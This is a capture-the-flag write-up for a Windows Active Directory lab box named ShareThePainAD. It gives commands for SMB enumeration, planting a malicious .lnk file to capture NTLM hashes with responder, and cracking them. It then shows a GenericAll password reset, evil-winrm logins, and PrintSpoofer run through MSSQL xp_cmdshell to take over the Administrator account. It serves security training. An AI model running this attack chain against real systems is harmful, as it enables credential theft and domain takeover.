+++
author = "Blue Pho3nix"
title = "ShareThePainAD"
categories = ["hack-smarter"]
tags = [ "Medium", "Windows", "OSCP Prep" ]
image = "img/hack-smarter.png"
+++


# Solution

## Finding Credentials

`nmap` shows SMB and WinRM are open. It also gives us the domain and FQDN.

```
mkdir nmap && sudo nmap -Pn -p- -vv 10.0.21.103 -oN nmap/10.0.21.103-tcp-ports --min-rate 10000 && ports=$(grep '^[0-9]' nmap/10.0.21.103-tcp-ports  | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) && sudo nmap -sCV -Pn -p $ports -vv 10.0.21.103 -oA nmap/10.0.21.103-tcp-scripts-versions --min-rate 10000
```

```shell
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 126 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 126 Microsoft Windows Kerberos (server time: 2025-09-21 15:39:22Z)
135/tcp   open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 126 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 126
464/tcp   open  kpasswd5?     syn-ack ttl 126
593/tcp   open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 126
3268/tcp  open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: hack.smarter0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 126
3389/tcp  open  ms-wbt-server syn-ack ttl 126 Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC01.hack.smarter
| Issuer: commonName=DC01.hack.smarter
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-09-05T03:46:00
| Not valid after:  2026-03-07T03:46:00
| MD5:   4b40:6c01:63f1:81e4:4f56:64b7:8ef3:4bbc
| SHA-1: 2ad1:c7dc:ab46:ae72:570a:ea85:2192:51cf:1707:3692
| -----BEGIN CERTIFICATE-----
| MIIC5jCCAc6gAwIBAgIQL7/TDfsBKaJEuIxvqLtNeDANBgkqhkiG9w0BAQsFADAc
| MRowGAYDVQQDExFEQzAxLmhhY2suc21hcnRlcjAeFw0yNTA5MDUwMzQ2MDBaFw0y
| NjAzMDcwMzQ2MDBaMBwxGjAYBgNVBAMTEURDMDEuaGFjay5zbWFydGVyMIIBIjAN
| BgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAr/z97jkoYVuqCfcPuR2gCVRNgSK+
| MB7v2Nxa64USo34Z8OzT758ox5d7FFrmZSm3A0bvUNtVYjw4qAekjAYNCSCZO1JI
| GVDjieej7jRyApmXOCnV82Pp0pDZuc/v8hg1X1JNeXlI4vgi4cVXIQk2Cg6ljjap
| DRcm2JARZ8gNFvn/VbDTBpipp2nFIENtCM0wwslxI4SGbx8+GisHqOwt0tbelpuL
| JQ+uQPoddL45Fz7uQ/Pp/5nnqmtR/6yAR2jFir3v5/hZ7zycPCTlAocRth6azFW2
| UTke69SByvN+BJdgP2QbyXWcJHwX0GatenQCzht4ZCq0O2CsX9+7+lPKbQIDAQAB
| oyQwIjATBgNVHSUEDDAKBggrBgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcN
| AQELBQADggEBAAVQZIet+fvKcDwhSGcITFyO7RHjL51Q0aauioSdlow50XVGZ8vW
| ptOhb5GwWmGfo8abmKZO8mqK/SkaNU6pA7zwvBHVUqwWF2bMKyWKMBLOB0VIQaxT
| ZfV0LL8KR3oCs1fuC60rxDF8JIEne9vgL5z+dmgxXd6SZJf1//ZPjmUf7ai3ohtg
| MRq87WZuf2P7m2rZaPcIcyMDM0Zt5MSGr+bD9V2AboDrKh6TYrz4ODkNPUbeGyT/
| q57XlN2ERF6OYCYAGpLdCDxHmAhQhihKbxtnC4vwhUCaXnDUSD2v+9WYbrFmWMNl
| UCJT2ircDq6fnW4O9KJJhg5udslgzhQcT3Y=
|_-----END CERTIFICATE-----
| rdp-ntlm-info:
|   Target_Name: HACK
|   NetBIOS_Domain_Name: HACK
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: hack.smarter
|   DNS_Computer_Name: DC01.hack.smarter
|   DNS_Tree_Name: hack.smarter
|   Product_Version: 10.0.20348
|_  System_Time: 2025-09-21T15:40:10+00:00
|_ssl-date: 2025-09-21T15:40:19+00:00; -1s from scanner time.
5985/tcp  open  http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 126 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49671/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49675/tcp open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
49711/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49837/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 33722/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 13752/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 4466/udp): CLEAN (Timeout)
|   Check 4 (port 31274/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time:
|   date: 2025-09-21T15:40:11
|_  start_date: N/A
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
```

We add the domain and FQDN to `/etc/hosts`.

```bash
echo '<your-box-ip> hack.smarter DC01.hack.smarter' | sudo tee -a /etc/hosts
```




We have anonymous read and write access to the SMB share named 'Share'.

```
nxc smb <your-box-ip> -u 'anonymous' -p '' -M spider_plus -o DOWNLOAD_FLAG=True
```



We get xct's [hashgrab](https://github.com/xct/hashgrab) to grab NTLM hashes.

```
wget https://raw.githubusercontent.com/xct/hashgrab/refs/heads/main/hashgrab.py
```




First, we create the files using our `tun0` IP address and a file name.

```
python hashgrab.py <your-tun0-ip> Raises_Q4
```



Then, we start up `responder`.

```
sudo responder -I tun0
```

We connect to the share using `smbclient.py` with no password.

```
smbclient.py hack.smarter/anonymous@DC01.hack.smarter
```

```
shares
```
```
use share
```



We upload our malicious `.lnk` file.

```
lls
```
```
put Raises_Q4.lnk
```



After a few moments, we get a hit on responder. 



We copy bob.ross's hash to a file, and run `john` to crack the password.

```
john bob.ross-hash --wordlist=/usr/share/wordlists/rockyou.txt
```




## Foothold

We run [bloodhound](https://github.com/SySS-Research/Single-User-BloodHound) and find that bob.ross has GenericAll on alice.wonderland. Alice can log into the box because they're a member of the Remote Management Users. 

```
bloodhound-ce-python -d hack.smarter -u 'bob.ross' -p '137Password123!@#' -ns <your-box-ip> -c all --zip
```









We'll change Alice's password, and log in to get the user flag.

```
net rpc password "alice.wonderland" "newP@ssword2025" -U "hack.smarter"/"bob.ross"%'137Password123!@#' -S "DC01.hack.smarter"
```

```
evil-winrm -i <your-box-ip> -u alice.wonderland -p newP@ssword2025
```




## Privilege Escalation

We find a folder called 'SQL2019' in the C:\ directory. 



We find MSSQL running on port 1433.

```
Get-Process -Name sqlservr
```

```
netstat -ano | findstr /i LISTENING
```




Wee see alice.wonderland is the current user on MSSQL 2019

```
sqlcmd -S tcp:127.0.0.1,1433 -E -Q "SELECT SUSER_SNAME() AS CurrentUser, @@VERSION AS Version;"
```




We try to read the Administrator's flag, but get denied.

```
sqlcmd -S tcp:127.0.0.1,1433 -E -Q "EXEC xp_cmdshell 'type C:\Users\Administrator\Desktop\root.txt';"
```



We have `SeImpersonatePrivilege` privileges so we can use [PrintSpoofer](https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe) to change the Administrator's password.



We get `PrintSpoofer.exe`.

```
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
```



Then, we upload the file to the victim's C:\ProgramData folder.

```
cd c:\programdata
```

```
upload PrintSpoofer64.exe
```



We run into qoutation errors when we try to change the Administrator's password.



We create a `do.cmd` file to make things easier.

```
Set-Content -Path c:\programdata\do.cmd -Value 'net user Administrator bluew@shere1'
```

```
type do.cmd
```



We change the Administrator's password, and login to get the root flag.
```
sqlcmd -S tcp:127.0.0.1,1433 -E -Q "EXEC xp_cmdshell 'C:\ProgramData\PrintSpoofer64.exe -c C:\programdata\do.cmd';"
```

```
evil-winrm -i <your-box-ip> -u Administrator -p bluew@shere1
```

